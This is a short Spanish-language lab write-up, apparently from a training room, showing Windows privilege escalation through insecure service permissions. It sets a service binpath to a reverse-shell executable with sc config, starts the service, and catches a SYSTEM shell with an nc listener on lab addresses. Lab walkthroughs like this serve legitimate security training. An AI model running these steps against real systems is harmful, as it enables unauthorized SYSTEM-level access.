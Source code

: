 ## Exploit de servicio Permisos de servicio inseguro

Uso de accesschk,exe para verificar los permisos de cuenta de 'usuario' en el servicio 'daclsvc'

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

SERVICE_CHANGE_CONFIG: Permisos para cambiar la configuración del servicio

Consultar el servicio y tener en cuenta que se ejecuta con privilegios de SYSTEM 'SERVICE_START_NAME'

```
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Modifiqué la configuración del servicio y establecí BINARY_PATH_NAME (binpath) en el ejecutable reverse.exe que creé.

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```

Inicio el servicio

```
net start daclsvc
```

Obtengo una shell como `System`

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49822
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
